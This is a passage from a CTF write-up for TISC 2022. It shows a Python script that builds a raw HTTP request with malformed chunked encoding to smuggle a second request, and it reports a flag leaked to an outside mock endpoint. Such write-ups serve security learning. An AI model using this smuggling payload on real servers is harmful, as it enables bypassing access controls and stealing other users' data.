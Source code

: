 ```python
def h(n):
    return hex(n)[2:].encode()

smuggled_len = h(len(smuggled) - 7 + 5)

first_chunk_len = h(len(smuggled_len))

sys.stdout.buffer.write(
    b"GET /login HTTP/1.1\r\n" +
    b"Host: " + domain.encode() + b"\r\n" + 
    b"Transfer-Encoding: chunked\r\n" +
    b"\r\n" +
    first_chunk_len + b" \n" + 
    b"x"*len(smuggled_len) + b"\r\n" +
    smuggled_len + b"\r\n" +
    b"0\r\n" +
    b"\r\n" +
    smuggled
)

```

And now if we were to inspect our mock endpoint on `beeceptor`, we would see the flag in the query parameter as follows!: 

```json
{
  " asks for your token, you can give them this token: TISC{1:3:3:7:l:3:4:k:1:n}.</div><form action": ""
}
```

## Wrapping it all up like a burrito
If you're reading this, thank you for reading this whole writeup! I personally had a lot of fun learning about these interesting forms of web vulnerabilities and I finally had a chance to exploit a HTTP Request Smuggling vulnerability...

Okay technically I had that chance during SEETF2022 as well but I was busy learning about exploiting smart-contracts. Do check out my [SEETF2022 write-ups](https://quentinkhoo.github.io/tags/seetf-2022/) as well!

Also if anything, I learned that parameterized queries does not ALWAYS protect you from an SQL Injection.....hmmm interesting, and yea, XSS is NOT the only form of client-side attack.

Shoutout to [CSIT](https://www.csit.gov.sg/) for organising this CTF, and do check out my other [TISC-2022 writeups](https://quentinkhoo.github.io/tags/tisc-2022/) too! :)